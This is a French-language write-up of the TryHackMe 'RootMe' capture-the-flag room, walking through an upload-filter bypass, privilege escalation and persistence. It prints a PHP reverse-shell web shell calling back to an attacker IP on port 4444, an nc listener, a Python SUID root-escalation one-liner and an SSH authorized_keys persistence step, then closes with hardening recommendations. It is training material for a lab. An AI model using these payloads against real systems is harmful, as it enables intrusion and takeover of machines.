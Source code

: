 # TryHackMe – RootMe

> Write‑up par **Saad Idrissi**

---

## Table des matières

- [Présentation générale](#présentation-générale)
- [Étape 1 : Reconnaissance](#étape-1--reconnaissance)
  - [Ciblage de la machine](#ciblage-de-la-machine)
  - [Analyse Web](#analyse-web)
- [Étape 2 : Accès initial via téléversement de fichier](#étape-2--accès-initial-via-téléversement-de-fichier)
  - [Vulnérabilité identifiée](#vulnérabilité-identifiée)
  - [Exécution du shell](#exécution-du-shell)
- [Étape 3 : Escalade de privilèges](#étape-3--escalade-de-privilèges)
  - [Recherche SUID](#recherche-suid)
  - [Exploitation Python SUID](#exploitation-python-suid)
- [Étape 4 : Persistance via SSH](#étape-4--persistance-via-ssh)
- [Résultat final](#résultat-final)
- [Recommandations de sécurité](#recommandations-de-sécurité)
- [Conclusion](#conclusion)

---

## Présentation générale

La room **RootMe** est une machine d’initiation sur [TryHackMe](https://tryhackme.com/room/rootme) destinée à illustrer l’exploitation d’un formulaire d’upload vulnérable, suivie d’une élévation de privilèges simple. L’objectif est de récupérer :

1. le flag utilisateur (`user.txt`) ;
2. le flag root (`root.txt`).

---

## Étape 1 : Reconnaissance

### Ciblage de la machine

```text
IP cible : 10.10.104.124
```

Seul le port 80 (HTTP) est accessible.

### Analyse Web

La page d’accueil propose un **téléversement de fichiers**. Toute tentative d’upload d’un fichier `.php` est refusée :

```
PHP não é permitido!
```

---

## Étape 2 : Accès initial via téléversement de fichier

### Vulnérabilité identifiée

L’extension `.php5` est toujours interprétée par Apache comme du PHP. L’upload d’un web‑shell `shell.php5` est donc autorisé :

```php
<?php
$sock = fsockopen('10.8.123.123', 4444);
exec('/bin/sh -i <&3 >&3 2>&3');
?>
```

Le fichier est ensuite accessible à l’URL :

```
http://10.10.104.124/uploads/shell.php5
```

### Exécution du shell

Côté attaquant :

```bash
rlwrap nc -lvnp 4444
```

Le chargement de l’URL déclenche un **reverse shell** sous `www‑data` et permet de lire `user.txt`.

---

## Étape 3 : Escalade de privilèges

### Recherche SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

Résultat pertinent :

```
/usr/bin/python
```

### Exploitation Python SUID

Le binaire Python possède le bit SUID. Il est donc possible de se faire passer root :

```bash
python -c 'import os,pty; os.setuid(0); os.system("/bin/bash")'
```

```bash
root@rootme:~# whoami
root
```

---

## Étape 4 : Persistance via SSH

1. Générer une paire de clés locale :

   ```bash
   ssh-keygen -t ed25519
   ```

2. Ajouter la clé publique dans `/root/.ssh/authorized_keys` sur la machine cible.

3. Vérifier l’accès :

   ```bash
   ssh -i id_ed25519 root@10.10.104.124
   ```

---

## Résultat final

```bash
root@rootme:~# cat /root/root.txt
THM{<redacted>}
```

---

## Recommandations de sécurité

1. **Filtrage strict des uploads** : liste blanche des extensions et analyse du contenu.
2. **Désactivation des extensions PHP secondaires** dans la configuration Apache.
3. **Réduction de surface SUID** : retirer le bit SUID des interpréteurs non essentiels.
4. **Journalisation et alertes** sur les téléversements et l’exécution de fichiers dans les répertoires web.

---

## Conclusion

Un simple contournement d’upload et une mauvaise gestion des SUID suffisent à compromettre totalement le système. Le durcissement de la configuration Apache et une politique de privilèges minimale sont indispensables.

---

**Auteur :** Saad Idrissi

